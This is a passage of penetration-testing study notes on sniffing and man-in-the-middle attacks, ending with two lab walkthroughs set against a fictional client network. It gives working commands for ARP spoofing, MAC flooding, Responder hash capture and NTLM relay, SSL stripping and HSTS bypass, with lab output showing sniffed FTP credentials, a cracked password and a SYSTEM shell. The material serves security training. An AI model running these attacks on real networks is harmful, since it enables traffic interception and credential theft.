


# Network Security

## Sniffing & MitM Attacks

### What is Sniffing - Study Guide

(04/11) A MitM is an attack in which a malicious user is able to intercept communications between two systems.
(06/11) An attacker acts as a proxy, splitting the original connection in two.

### Sniffing in Action - Study Guide

(04/08) *Active sniffing*: by actively performing malicious operations like MAC flooding and ARP poisoning on the network (not a stealthy technique).
(05/08) *MAC flooding*: consists of fill the switch CAM table in which it keeps the info to forward the frames to the correct port: MAC address, port number, TTL.
It forces the switch to operate like a hub, delivering the frames to all the switch's ports. The frames sent with an unknown MAC address are forwarded to all the ports to maintain the network alive.
(07/08) *ARP poisoning/spoofing*: the attacker is able to redirect the traffic of a victim to a specific machine, usually the attacker one, enabling the attacker to modify the traffic as well (the stealthier of the active sniffing techniques).

### Basics of ARP - Study Guide

(02/23) *ARP* is a protocol to translate layer 3 IP addresses in layer 2 MAC addresses relying on a ARP table (present at each node) that contains the pairs.
To check the local ARP table: `arp -a` on Windows and `arp` on Linux.
(15/23) Gratuitous ARP request does not wait for an answer, it just notifies the presence of the sender in the network. Gratuitous ARP reply is a message not requested, self-initiated.
(18/23) ARP host poisoning: the attacker forges a gratuitous ARP reply and sends it to the communication peers. All the traffic between A and B will pass through M.
(20/23) ARP gateway poisoning: the attacker sends gratuitous ARP replys to some or all the hosts in a network announcing his MAC address as the MAC address of the default gateway for the network. So, all the packets with a foreign destination will pass through the attacker.

### Sniffing Tools - Study Guide

(03/42) *Dsniff* is a suite of tools to perform passive/active sniffing and MitM attacks.
It is a password sniffer which handles a lot of protocols like HTTP, FTP, SMTP, POP, IMAP.
Dsniff options:
```
-c	Perform half-duplex TCP stream reassembly, to handle asymmetrically routed traffic (such as when using
arpspoof to intercept client traffic bound for the local gateway).
-d	Enable debugging mode
-m	Enable automatic protocol detection.
-n	Do not resolve IP addresses to hostnames.
-p	process the contents of the given PCAP capture file
-i Specify the interface to listen on.
```

(14/42) *Wireshark*: we can save the results of the sniffing on an output file setting up the Capture Options (for later analysis).
We can use the `http.authbasic` filter to list just the packets containing credentials.
Then we can study a single packet searching for the Hypertext Transfer Protocol header.
Here we can find the `Authorization: Basic <Base64String> Credentials: <Username>:<Password>` (Wireshark automatically decodes the base64 string).

(26/42) *Tcpdump* is a TCP/IP packet sniffer.
`tcpdump -i <NetworkInterface>`: to see all the traffic with the most important information for each packet.
`tcpdump -i <NetworkInterface> -v`: to see all the traffic with more information with the verbosity mode.
`tcpdump -i <NetworkInterface> dst <TargetIP>`: to show just the traffic with the destination specified.
Tcpdump options:
```
-dst	Shows only the communications with the destination specified
-A		Print each packet (minus its link level header) in ASCII. Handy for capturing web pages
-XX		When parsing and printing, in addition to printing the headers of each packet, print the data of each packet, including its link level header, in hex and ASCII
-xx		When parsing and printing, in addition to printing the headers of each packet, print the data of each packet, including its link level header, in hex
-S		Print absolute, rather than relative, TCP sequence numbers
-s		Snarf snaplen bytes of data from each packet rather than the default of 68. 68 bytes is adequate for IP, ICMP, TCP and UDP but may truncate protocol information from name server and NFS packets (see below). Packets truncated because of a limited snapshot are indicated in the output with "[|proto]", where proto is the name of the protocol level at which the truncation has occurred. Note that taking larger snapshots both increases the amount of time it takes to process packets and, effectively, decreases the amount of packet buffering. This may cause packets to be lost. Setting snaplen to O means use the required length to catch whole packets
```
A Windows alternative is *WinDump*.

### Traffic Sniffing with TCPdump - Video

Tcpdump:
`tcpdump -D`: to get the available network interfaces we can use;
`tcpdump -i eth0`: to see all the traffic on that specific interface with the most important information;
`tcpdump -i eth0 -v`: to see all the traffic on that specific interface with more information (verbosity mode);
`tcpdump -i eth0 -N`: to disable the DNS resolution (IP address to domain names) that the tool performs automatically;
`tcpdump -i eth0 -q`: to see all the traffic on that specific interface with less information (quite mode);
`tcpdump -i eth0 host elsfoo.com`: to see just the traffic between our machine and a specific server;
`tcpdump -i eth0 src 192.168.1.2 and dst 192.168.1.3`: to see just the traffic between a specific source and a specific destination;
`tcpdump -i eth0 port 80`: to see just the traffic on a specific port;
`tcpdump -i eth0 -F filters.txt`: to import filters from a file, where `cat filters.txt`: `port 80`;
`tcpcump -i eth0 -w output.txt`: to export a packet capture file;
`tcpdump -i eth0 -r output.txt`: to import a packet capture file;
`tcpdump -i eht0 | grep 192.168.1.2`: to grep specific information.

### MiTM Attacks - Study Guide

(04/46) The most common use of MitM attack is in a LAN due to the lack of security in layer 2-3 protocols such as ARP and DHCP.

(05/46) *ARP poisoning*: the attacker pretends to be B to A and A to B, sending fake information about the IP-MAC pairs through gratuitous ARP replies. Because of TTL in ARP chaces, the replies must be sent at intervals lower than the timeout (usually a good choice is every 30 seconds).
After the sniffing is completed, with other replies the ARP caches values can be restored.
Countermeasures: tools like arpwatch and arpcop can detect but not stop this type of attack.
MitM local to remote: the attacker poses as the default gateway, so all the traffic for outside the LAN must pass through him.

(13/46) DHCP is the protocol used to assign IP addresses (and also some configuration like the default gateway IP) to new hosts connected to a network, it is based on UDP protocol on port 67.
*DHCP spoofing*: the attacker poses as the DHCP server. He inserts into the DHCP offer a lease time greater than the real DHCP server one and sets himself like the default gateway for the network.

(25/46) The attacker must be able to sniff the traffic between the owner of the public key and the receiver.
*MitM in public key exchange*: affects the public key exchange that can be done either by a distribution center or by the owner himself. The attacker pretends to be B to A and A to B.

(34/46) Both LLMNR and NBT-NS are Windows fall-back protocols used as alternative to DNS resolution when this one fails or when there is not a DNS server on a LAN. LLMNR is the successor of NBT-NS.
The *LLMNR and NBT-NS spoofing/poisoning* consists in the intercepting of the NTLMv1/v2 hashes.
NTLM is a Windows authentication protocol involved when a user attempts to access to a network device, in which there is an exchange of hashes calculated on the user credentials.

A typical scenario of attacking LLMNR or NBT-NS broadcasts is as follows:
1. Host A requests an SMB share at the system `\\intranet\files`, but instead of typing "intranet" mistakenly types "intrnet".
2. Since "intrnet" can't be resolved by DNS as it is an unknown host, Host A then falls back to sending an LLMNR or NBT-NS broadcast message asking the LAN for the IP address for host "intrnet".
3. An attacker, (Host B) responds to this broadcast message claiming to be the "intrnet" system.
4. Host A complies and sends Host B (the attacker) their username and NTLMv1 or v2 hash to the attacker.

One of the pre-requisites for the LLMNR/NBT-BS spoofing/poisoning attack is that the SMB signing (a security protection against MitM attacks that uses digital signatures for the exchanged messages) has been disabled on the workstations. For determining this, can be used the *RunFinger* tool (included in the Responder toolkit): `python RunFinger.py -i <TargetIP>`.
Then, we must modify the `Responder.conf` setting `SMB = On` and `HTTP = Off`.
Responder is a toolkit for exploiting the LLMNR/NBT-NS weaknesses for capturing the NTLMv1/v2 hashes: `python Responder.py -I <NetworkInterface> --lm`, where `--lm` tries to downgrade NTLMv1/v2 hashes to LM hashes.
It can be used in conjunction with the *MultiRelay* tool (included in the Responder toolkit) to send the hashes to other hosts on the network (NTLM Relay attack): `python MultiRelay.py -t <TargetIP> -u ALL`, where `-u ALL` specifies to relay all users.
A successful hash relay will result in a shell (anyway this is a limited shell).

### Attacking Tools - Study Guide

(02/76) *Ettercap* is a sniffer (for different protocols), but it also offers password cracking features.
`ettercap -G`, where `-G` is used to start the gtk+ graphical interface.
`View->Connections`: to view the traffic intercepted.
With Ettercap we can perform these attacks: ARP poisoning, DHCP spoofing, ICMP redirect, port stealing.

(25/76) *Cain & Abel* is a tool to mount MitM attacks.
`Configure`: to select the network interface.
`Sniffer->Start/Stop Sniffer`: to start the sniffer.
`Scan MAC address`: to use ARP to resolve IP addresses to MAC addresses.
`APR->+`: to select (all) the targets pairs of our attack, `APR Start/Stop`: to start the ARP Poisoning Routing attack.
On successfull attack, we will start seeing packets in the bottom section of the windows.
`Passwords`: to see the credentials sniffed.
Cain & Abel can also intercept NTLM hashes and has also a built-in cracker.

(45/76) A switch maintains a table (named CAM Content Addressable Memory) containing the mapping between the network hosts MAC addresses and its physical ports.
The MAC flooding attack exploits the limitation in memory of the CAM table, flooding the switch with fake MAC addresses. This is done in order to make the switch to act like a hub (failopen mode), so broadcasting all the network packets.
MAC flooding can be performed with both Ettercap and Cain, but we will use *Macof* (an utility present in the dsniff suite).
`echo 1 > /proc/sys/net/ipv4/ip_forward`: to enable the IP forwarding;
`macof -i <NetworkInterface> -n <PacketsAmount>`: to send 32 packets.
Macof options:
```
-i interface:	Specify the interface to send on
-s src:			Specify source IP address
-d dst:			Specify destination IP address
-e tha:			Specify target hardware address
-x sport:		Specify TCP source port
-y dport:		Specify TCP destination port.
-n times:		Specify the number of packets to send.
```
Note that modern switch are protected against MAC flooding attacks.

(55/76) *Arpspoof* is an utility present in the dsniff suite to perform ARP spoofing and MitM attacks.
`echo 1 > /proc/sys/net/ipv4/ip_forward`: to enable the IP forwarding (it enables our machine to proxy between the two victims);
`arpspoof -i <NetworkInterface> -t <TargetIP> <GatewayIP>`: to send ARP replies for telling to the victim that the MAC address of the gateway is our MAC address, so we are swapping the MAC address of the gateway with ours. In other words, we are providing the IP address of the machine we want to impersonate;
`arpspoof -i <NetworkInterface> -t <GatewayIP> <TargetIP>`: to swap, at the gateway ARP table, the MAC address of the victim with ours.
The ARP spoofing now is complete.

(65/76) *Bettercap* is an utility present in the dsniff suite to perform ARP spoofing and MitM attacks.
`bettercap -I <NetworkInterface> --no-spoofing`: to find our targets on the network on discovery mode.
By default Bettercap tries to perform a NetBIOS hostname resolution, we can disable it by the `--no-target-nbns` option.
`bettercap -I <NetworkInterface> -T <TargetIP> -G <GatewayIP>`: to perform the ARP spoofing.
`bettercap -I <NetworkInterface> -T <TargetIP> -G <GatewayIP> -X -P "HTTP,URL,POST"`: to filter some specific sniffed traffic, where `-X` enables the sniffer feature and `-P` enables the packet parsers.

### Man in the Middle - Video

Ettercap can perform the attack, sniff the network and capture the packets, so we don't need other tools.
`Hosts->Scan for hosts`: to find the possible targets.
Now we need to select the targets we want to attack.
`Mitm->ARP poisoning->Sniff remote connections`: to start the attack.
On successfull attack, the gateway MAC address has become the attacker MAC address.
`View->Connections`: to see the captured packets.

### Intercepting SSL Traffic - Study Guide

(02/44) Remember that in SSL is involved a handshake with an exchange of SSL certificates.
To perform MitM attacks with encrypted traffic we need to: intercept, decrypt, read, re-encrypt and resend data.
Configure Ettercap to intercept and analyze SSL traffic:
`/etc/ettercap/etterp.conf`:
```
[privs]
ec_uid = 0
ec_gid = 0

...

# if you use iptables:
	redir_command_on = "..."
	redir_command_off = "..."
```
With this configuration, Ettercap is able to read the traffic.
But, whenever the victim tries to open a secure HTTP page, the modern browsers will warn him that the certificate in use is not correct (it is self-signed).

(11/44) *Sslstrip* tool implements a way to avoid this problem: it redirects all the HTTPS traffic to HTTP one. In this way the attacker can transparently proxy all the traffic between the victim and the server.
Anyway there are some shortcomings present in this type of attack.
Sslstrip options:
```
-w <filename>, --write=<filename>	Specify file to log to (optional)
-p, --post							Log only SSL POSTS. (default)
-s, --ssl							Log all SSL traffic to and from server.
-a, --all							Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>			Port to listen on (default 10000).
-f, --favicon						Substitute a lock favicon on secure requests.
-k, --killsessions					Kill sessions in progress.
```
We will use Bettercap to mount an ARP poisoning MitM attack and sslstrip to capture the encrypted traffic.
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 8080`: to set up port redirection;
`sslstrip -a -f -l 8080 -w elsfoo_sslt`: to listen on port 8080 and save the output to a file;
Bettercap already implements sslstrip, thus we can run the whole attack just using the `--proxy-https` option: `bettercap -I <NetworkInterface> -T <TargetIP> -G <GatewayIP> --proxy-https`.
Now, when the victim tries to load a HTTPS page, sslstrip intercepts the request and strips it down to HTTP.
Note that this technique will not work with modern browsers and websites.
This happens because the HSTS (HTTP Strict Transport Security) policy mechanism is in place. It is a security enhancement specified by the web application that prevents the downgrade from HTTPS to HTTP: force the redirection from HTTP to HTTPS.

(31/44) *Sslstrip+* introduce a DNS server to (partially) bypass HSTS: intercept and edit the victim's DNS requests.
In this new method the aim is to trick the checking of the HSTS preloaded list, using fake domains names (e.g. "wwww.google.com" instead of "www.google.com"). Since the domain is different, the browser will continue to communicate over HTTP.
*MITMf* is a tool that implements sslstrip+.
MITMf options:
```
-i				Interface to listen on
--spoof			Load plugin 'Spoof' - This allows to redirect traffic using ARP, ICMP, DHCP or DNS Spoofing
--arp			Redirect traffic using ARP spoofing
--dns			Proxy/Modify DNS queries
--hsts			Load plugin 'SSLstrip+'
--gateway		Specify the gateway IP
--targets		Specify host/s to poison [if ommited will default to subnet]
```
`python mitmf.py -i <NetworkInterface> --spoof --arp --dns --hsts --targets <TargetIP> --gateway <GatewayIP>`: to run the MitM attack bypassing HSTS.

### Cain and Abel - Lab

You are a Penetration Tester, and you're hired by a small corporation in order to perform a security assessment, your customer is `sportsfoo.com`. Like a lot of small companies out there, they have a really short IT team responsible for taking care of all of the technical stuff like helpdesk, security, database administration, and web development. As you can imagine, having too many job functions, the company decides to hire a security consultant (you) in order to help them to test the security of their network.

The assumptions of this security engagement are:
- Due to an internal policy, `sportsfoo.com` requires that all of your security tests should be performed from their Audit workstation (`172.16.5.101`).
- The scope of tests includes the networks `172.16.5.0/24` and `10.10.10.0/24`. There is a firewall between these networks, which is only allowing just a couple of ports need for their business.
- They just have one server on their internal network (`172.16.5.0/24`). It's a file server and allows only the protocols *SMB* and *NetBIOS*.
- Follow the tasks described below in order to help `sportsfoo.com` to find out potential attack vectors so they can reduce the risks of getting compromised by an attacker.

The following image represents the LAB environment:


Goals
- Identify *online hosts*.
- Setup the *ARP Poisoning Attack* and *sniff* the network segment.
- Steal *FTP credentials*.
- *Crack passwords* using a dictionary attack.
- Get a *shell* on the server.

What you will learn
- How to use the tool Cain & Abel in order to perform a Man in The Middle Attack (MiTM).
- Crack passwords.
- Get a remote shell.
- Steal credentials.

Recommended tools
- Cain & Abel

---

Tasks

1. Host Discovery. What is the protocol used by the Cain & Abel to perform host discovery? Using the previous technique, can you list the online hosts from another network (i.e. `10.10.10.0/24`)? If it didn't work, can you explain why?
2. ARP Poisoning. From the audit host (`172.16.5.20`), launch an ARP Poisoning Attack using Cain & Abel against all identified hosts.
3. Inspect the passwords. Stop the ARP Poisoning Attack launched from the host `172.16.5.20` and identify the FTP credentials.
4. ARP Poisoning Analysis. Analyze the results of the ARP Poisoning attack and check if there is any SMB connection. Then, crack the password, it will be useful later.
5. Access the server. Access the server `172.16.5.10` using Cain and Abel.

---

1. Host Discovery. What is the protocol used by the Cain & Abel to perform host discovery? Using the previous technique, can you list the online hosts from another network (i.e. `10.10.10.0/24`)? If it didn't work, can you explain why?

`ipconfig`:
```
Windows IP Configuration

Ethernet adapter Local Area Connection 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::c495:f2d8:fd5a:36fd%15
   IPv4 Address. . . . . . . . . . . : 172.16.5.20
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Tunnel adapter isatap.{53152A2F-39F7-458E-BD58-24D17099256A}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

`Cain`, `Configure`, `Start/Stop Sniffer`:
```
IP address		MAC address

172.16.5.1		0A0027000003
172.16.5.5		0800278A4B36
172.16.5.6		0800278A4B36
172.16.5.10		0800277F4FD8
```

We cannot perform host discovery from a different network using the ARP protocol. Host discovery with ARP just works when all hosts are on the same broadcast domain.

The `Scan Mac Address` feature works by sending ARP requests to the broadcast address `ff:ff:ff:ff:ff:ff` asking for specific IP address range (if specified). ARP is a protocol used for the resolution of network layer addresses (IP address) into link-layer addresses (MAC address). It works on the layer 2 of the OSI model, so it can only be used to discovery hosts which are located in the same subnet.

2. ARP Poisoning. From the audit host (`172.16.5.20`), launch an ARP Poisoning Attack using Cain & Abel against all identified hosts.

`APR->+`: to select (all) the targets pairs of our attack:
```
172.16.5.5		172.16.5.1
172.16.5.6		172.16.5.1
172.16.5.10		172.16.5.1
```

`APR Start/Stop`: to start the ARP Poisoning Routing attack.

3. Inspect the passwords. Stop the ARP Poisoning Attack launched from the host `172.16.5.20` and identify the FTP credentials.

`APR Start/Stop`: to stop the ARP Poisoning Routing attack.
`Passwords`, `FTP`: to see the FTP credentials sniffed:
```
Username: admin
Password: et1@sR7!
```

4. ARP Poisoning Analysis. Analyze the results of the ARP Poisoning attack and check if there is any SMB connection. Then, crack the password, it will be useful later.

`Passwords`, `SMB`: to see the SMB (NTLMv2 hashes) credentials sniffed.
`Send to Cracker`, `Cracker`, `NTLMv2 Hashes`, `Dictionary Attack`, `Add to list`: to select the dictionary for the cracking process, `Start`:
```
Plaintext of user aline is soccer
Attack stopped!
1 of 2 hashes cracked
```

5. Access the server. Access the server `172.16.5.10` using Cain and Abel.

`Network`, `Quick List`, `Add to Quick List`, `172.16.5.10`, `Connect As` (`aline`, `soccer`).
`Services`, `Install Abel`, `Abel`, `Console`.
`whoami`:
```
nt authority\system
```

---

### Poisoning and Sniffing - Lab

Scenario

You are a Penetration Tester, and you're asked to determine if a very sensitive network segment is secure. The client, Sportsfoo.com, is a small research company specialized in Sports.
All the information from a specific segment should only be available to the authorized users and should not be exposed to anybody else.

The scope provided by the client is:
- any host and device in the network: `172.16.5.0/24`.

Goals
- Map the network
- Sniff the traffic
- Review the network traffic
- List your findings
- See what you can do with the credentials discovered
- Bonus: Provide a list of countermeasures to your client

What you will learn
- How to *map a network*
- How to *sniff* in a switched network - *ARP Poisoning* attack
- Review FTP and HTTP packets
- Obtain files transferred via SMB
- How to use the sensitive information obtained from the network trace in order to expand your access to the network.

To guide you during the lab, you will find different tasks.
Tasks are meant for educational purposes and to show you the usage of different tools and different methods to achieve the same goal. They are not meant to be used as a methodology.
Armed with the skills acquired through the task, you can achieve the Lab goal.
If this is the first time you have done this lab, we advise you to follow the Tasks.
Once you have completed all the Tasks, you can proceed to the end of this paper and check the solutions.

Recommended tools
- netdiscover
- nmap
- arpspoof
- driftnet
- Wireshark
- Metasploit / psexec
- mount

---

Tasks

1. *Host Discovery - Using ARP requests*.
Using only ARP packets, list all online hosts of the network `172.16.5.0/24`.
List another way, using a different tool and its parameters. Still using only ARP packets, the result should be the same.

2. *Host Discovery - Using DNS*.
	- *Determine the DNS Server*.
	Perform a port scan against the identified hosts in order to discover which one is running a DNS Service. Be very specific, so make sure you will only check for the DNS port. Also, determine if the DNS Server is running Linux, BSD, or Windows.
	- *Determine the Domain Name*. Using any DNS Lookup tool, determine for what Domain Name this DNS Server is authoritative.
	- *List additional hosts using DNS Zone Transfer*. Once discovered the Domain Name and DNS Server, check if you are able to identify further hosts using DNS Zone Transfer. Can you tell why the new hosts were not found using ARP requests?

3. *Identify the default gateway for the `172.16.5.0/24` network*.
According to the previous task, you have been able to identify two different networks. You have to identify the default gateway which is handling the communication between these networks. How can you do that?

4. *Draw a network map*.
Draw a network map of your findings in order to represent graphically the environment discovered so far.

5. *Capture traffic between `172.16.5.5` and `172.16.5.1`*.
Sniff the traffic between the hosts `172.16.5.5` and `172.16.5.1`. Keep yourself sniffing for around 5 minutes, then save the network traffic as `task5.pcap`.
Make sure you are able to see all the images while you are sniffing.

6. *Capture traffic between `172.16.5.6` and `172.16.5.1`*.
Sniff the traffic between the hosts `172.16.5.6` and `172.16.5.1`. Keep yourself sniffing for around 5 minutes, then save the network traffic as `task6.pcap`.
Make sure you are able to see all the images while you are sniffing.

7. *Capture traffic between `172.16.5.6` and `172.16.5.10`*.
Sniff the traffic between the hosts `172.16.5.6` and `172.16.5.10`. Keep yourself sniffing for around 5 minutes, then save the network traffic as `task7.pcap`.

8. *Analyze the task5 capture*.
Understand the big picture of the network traffic gathered. Before diving into packet analysis of the Task5 capture, try to get an overview of what kind of traffic we have captured. Identify the most used protocols.

	- Analyze the HTTP traffic
		- Part 1. Restrict the packet analysis to only HTTP traffic and exclude the traffic from and to your machine from the analysis. The HTTP protocol consists of a couple of different commands (full details are available on the RFC 2616).
		- Part 2. Find at least 2 HTTP requests which are not secure but that don't seem to contain confidential information.
		- Part 3. Find at least 2 HTTP requests which are really insecure and expose your client to big problems, such as identity theft, privilege escalation, etc.

	- Analyze the FTP traffic
		- Part 1. Restrict the packet analysis to only FTP traffic.
		- Part 2. List the FTP commands issued by `172.16.5.5`.
		- Part 3. What is the username and password used during that FTP connection?

9. *Analyze the task6 capture*.
	- Detect the Intranet Credentials. Analyze all of the HTTP POST requests and determine the correct login for `172.16.5.6` when accessing the `http://intranet.sportsfoo.com`
	- Retrieve files downloaded by `172.16.5.6`. By reviewing all of the HTTP GET requests, describe all of the files that were retrieved by the user above.

10. *Analyze task7 capture*.
Review the network trace obtained via Task7. Identify two files that were transferred via SMB and their contents.

11. *Test the found credentials*.
Use the credentials gathered in order to see what kind of access you can get on `172.16.5.10`. With two different credentials in handy, check if you can access the following resources:
- `\\172.16.5.10\finance`
- `\\172.16.5.10\technology`
- Remote shell on the `172.16.5.10`.

12. *Countermeasures*.
	- List at least one countermeasure that your client could implement for some of the problems identified during the test.
	- What protocol can be used on the `http://intranet.sportsfoo.com` in order to avoid that credentials are transmitted in clear-text?
	- What protocol or tool can be used as a replacement for the FTP service in use on the host ftp.sportsfoo.com?
	- What protocol can be used to ensure that all traffic between the file server and any other host on the LAN are encrypted?
	- What countermeasure can be implemented in order to protect the network against ARP Poisoning attacks?

---

1. *Host Discovery - Using ARP requests*.
Using only ARP packets, list all online hosts of the network `172.16.5.0/24`.
List another way, using a different tool and its parameters. Still using only ARP packets, the result should be the same.

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet6 ::1/128 scope host 
inet 192.168.0.3/24 brd 192.168.0.255 scope global adlab0
inet6 fe80::a00:27ff:fef9:76b6/64 scope link 
inet 172.16.5.101/24 brd 172.16.5.255 scope global eth1 ←
inet6 fe80::a00:27ff:fed4:ee5d/64 scope link
```

`arp-scan -I eth1 172.16.5.0/24`:
```
Interface: eth1, type: EN10MB, MAC: 08:00:27:d4:ee:5d, IPv4: 172.16.5.101
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.5.1      0a:00:27:00:00:03       (Unknown: locally administered) ←
172.16.5.5      08:00:27:8a:4b:36       PCS Systemtechnik GmbH ←
172.16.5.6      08:00:27:8a:4b:36       PCS Systemtechnik GmbH ←
172.16.5.10     08:00:27:4a:45:f3       PCS Systemtechnik GmbH ←

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.130 seconds (120.19 hosts/sec). 4 responded
```

`nmap -PR -sn 172.16.5.0/24`:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-02-20 05:57 EST
Nmap scan report for 172.16.5.1 ←
Host is up (0.00036s latency).
MAC Address: 0A:00:27:00:00:03 (Unknown)
Nmap scan report for 172.16.5.5 ←
Host is up (0.00066s latency).
MAC Address: 08:00:27:8A:4B:36 (Oracle VirtualBox virtual NIC)
Nmap scan report for 172.16.5.6 ←
Host is up (0.0027s latency).
MAC Address: 08:00:27:8A:4B:36 (Oracle VirtualBox virtual NIC)
Nmap scan report for 172.16.5.10 ←
Host is up (0.0011s latency).
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)
Nmap scan report for 172.16.5.101
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 28.08 seconds
```

2. *Host Discovery - Using DNS*.

- *Determine the DNS Server*.
Perform a port scan against the identified hosts in order to discover which one is running a DNS Service on the (TCP/UDP 53) port.

`nmap -sT -sU -Pn 172.16.5.1,5,6,10 -p53`:
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2024-02-20 06:31 EST
Nmap scan report for 172.16.5.1
Host is up (0.0017s latency).

PORT   STATE  SERVICE
53/tcp closed domain
53/udp closed domain
MAC Address: 0A:00:27:00:00:03 (Unknown)

Nmap scan report for 172.16.5.5
Host is up (0.0023s latency).

PORT   STATE  SERVICE
53/tcp closed domain
53/udp closed domain
MAC Address: 08:00:27:8A:4B:36 (Oracle VirtualBox virtual NIC)

Nmap scan report for 172.16.5.6
Host is up (0.0020s latency).

PORT   STATE  SERVICE
53/tcp closed domain
53/udp closed domain
MAC Address: 08:00:27:8A:4B:36 (Oracle VirtualBox virtual NIC)

Nmap scan report for 172.16.5.10 ←
Host is up (0.0027s latency).

PORT   STATE SERVICE
53/tcp open  domain ←
53/udp open  domain ←
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)

Nmap done: 4 IP addresses (4 hosts up) scanned in 13.27 seconds
```

Also, determine if the DNS Server is running Linux, BSD, or Windows.

`nmap -sV -Pn 172.16.5.10 -p53`:
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2024-02-20 06:36 EST
Nmap scan report for 172.16.5.10
Host is up (0.0012s latency).

PORT   STATE SERVICE VERSION
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.52 seconds
```

- *Determine the Domain Name*. Using any DNS Lookup tool, determine for what Domain Name this DNS Server is authoritative.

To do so we can perform a reverse lookup.

`nslookup`:
```
> server 172.16.5.10
Default server: 172.16.5.10
Address: 172.16.5.10#53
> 172.16.5.5
5.5.16.172.in-addr.arpa name = wkst-techsupport.sportsfoo.com.16.172.in-addr.arpa. ←
> 172.16.5.6
6.5.16.172.in-addr.arpa name = wkst-finance.sportsfoo.com.16.172.in-addr.arpa. ←
```

Similarly, using dig:

`dig @172.16.5.10 -x 172.16.5.5 +nocookie`:
```
; <<>> DiG 9.16.15-Debian <<>> @172.16.5.10 -x 172.16.5.5 +nocookie
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 302
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;5.5.16.172.in-addr.arpa.       IN      PTR

;; ANSWER SECTION:
5.5.16.172.in-addr.arpa. 86400  IN      PTR     wkst-techsupport.sportsfoo.com.16.172.in-addr.arpa. ←

;; Query time: 3 msec
;; SERVER: 172.16.5.10#53(172.16.5.10)
;; WHEN: Tue Feb 20 10:44:43 EST 2024
;; MSG SIZE  rcvd: 116
```

`dig @172.16.5.10 -x 172.16.5.6 +nocookie`:
```
; <<>> DiG 9.16.15-Debian <<>> @172.16.5.10 -x 172.16.5.6 +nocookie
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 13771
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
